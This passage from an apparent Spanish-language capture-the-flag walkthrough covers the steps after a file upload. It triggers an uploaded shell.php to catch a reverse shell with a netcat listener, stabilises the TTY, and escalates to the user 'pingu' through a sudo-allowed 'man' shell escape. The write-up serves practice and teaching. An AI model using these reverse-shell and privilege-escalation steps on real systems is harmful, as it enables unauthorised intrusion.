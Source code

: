 Ahora si nos vamos a la pagina en la seccion de `upload`

```
URL = http://<IP>/upload/
```

Veremos el archivo de `shell.php`, por lo que nos pondremos antes a la escucha:

```shell
nc -lvnp <PORT>
```

Y si pinchamos el archivo de la web y volvemos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 51042
whoami
www-data
```

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user pingu

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 71405f43252f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 71405f43252f:
    (pingu) NOPASSWD: /usr/bin/man
```

Vemos que podemos ejecutar el binario `man` como el usuario `pingu`, por lo que haremos lo siguiente:

```shell
sudo -u pingu man man
!/bin/bash
```
